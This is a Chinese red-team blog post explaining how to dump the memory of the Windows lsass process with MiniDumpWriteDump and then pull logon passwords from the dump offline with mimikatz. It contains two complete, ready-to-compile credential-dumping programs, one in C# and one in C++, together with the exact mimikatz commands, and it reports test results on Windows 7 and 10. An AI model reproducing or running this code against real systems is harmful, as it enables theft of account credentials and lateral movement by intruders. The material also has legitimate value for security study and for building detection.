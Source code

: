 ```yaml
---
layout:     post
title:    技巧-利用MiniDumpWriteDump 转储 lsass
subtitle:   利用MiniDumpWriteDump 转储 lsass
date:       2020-02-26
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 技巧
    - 红队
    
---
```

# 技巧-利用MiniDumpWriteDump 转储 lsass

## MiniDumpWriteDump
有些环境下可能无法上传或者利用mimikatz，可以转储lsass，然后本地离线用mimikatz读取密码。  
用来将指定进程的内存转储保存为文件，就是生成的文件有点大。  
函数：  
```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,
  DWORD                             ProcessId,
  HANDLE                            hFile,
  MINIDUMP_TYPE                     DumpType,
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```
具体可以看文档：[https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)  

## C#翻车版本
直接贴代码，直接编译就能用。但是有点问题。  
```
using System;
using System.Runtime.InteropServices;
using System.Diagnostics;
using System.IO;


namespace LsassDump
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("[+]Start Dump.........");
            MiniDump.TryDump("MiniDmp.dmp", MiniDump.MiniDumpType.WithFullMemory);
            Console.WriteLine("[+]OK");
            Console.ReadKey();
        }
    }


    public static class MiniDump
    {
        /*
         * 导入DbgHelp.dll
         */
       
        [DllImport("dbghelp.dll",
            EntryPoint = "MiniDumpWriteDump",
            CallingConvention = CallingConvention.Winapi,
            CharSet = CharSet.Unicode,
            ExactSpelling = true,
            SetLastError = true)]
        private static extern bool MiniDumpWriteDump(
                                    IntPtr hProcess,
                                    Int32 processId,
                                    IntPtr fileHandle,
                                    MiniDumpType dumpType,
                                    IntPtr expParam,
                                    IntPtr userStreamParam,
                                    IntPtr callbackParam);
     

        /*
         * 封装的一个函数
         */
        public static Boolean TryDump(String dmpPath, MiniDumpType dmpType)
        {

            //使用文件流来创健 .dmp文件
            using (FileStream stream = new FileStream(dmpPath, FileMode.Create))
            {
                //取得进程信息
                Process[] process = Process.GetProcessesByName("lsass");
                Console.WriteLine("[+]Process ID:" + process[0].Id);
      

                //调用Win32API
                Boolean res = MiniDumpWriteDump(
                                    process[0].Handle,
                                    process[0].Id,
                                    stream.SafeFileHandle.DangerousGetHandle(),
                                    dmpType,
                                    IntPtr.Zero,
                                    IntPtr.Zero,
                                    IntPtr.Zero);

                //清空 stream
                stream.Flush();
                stream.Close();

                return res;   
            }
        }

        public enum MiniDumpType
        {
            None = 0x00010000,
            Normal = 0x00000000,
            WithDataSegs = 0x00000001,
            WithFullMemory = 0x00000002,
            WithHandleData = 0x00000004,
            FilterMemory = 0x00000008,
            ScanMemory = 0x00000010,
            WithUnloadedModules = 0x00000020,
            WithIndirectlyReferencedMemory = 0x00000040,
            FilterModulePaths = 0x00000080,
            WithProcessThreadData = 0x00000100,
            WithPrivateReadWriteMemory = 0x00000200,
            WithoutOptionalData = 0x00000400,
            WithFullMemoryInfo = 0x00000800,
            WithThreadInfo = 0x00001000,
            WithCodeSegs = 0x00002000
        }
    }
}
```
win10下测试没有问题，但是跑到win7上不管什么用户去执行都不行，会抛出内存访问被拒绝的异常，导个win10也没啥用，就图一乐？  
![200226_1](/im/200226_dumperror.png)  

## C++版本
参考了这里的代码：[https://ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass](https://ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass)  
```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
编译出来。   
在win10没有问题，在win7下测试也没有问题，管理员权限运行能正常导出。  
![200226_2](/img/200226_dumpok.png)  
再用mimikatz测试：  
```
sekurlsa::minidump MiniDmp.dmp
sekurlsa::logonpasswords
```
![200226_3](/img/200226_mimikatz.png)  


  
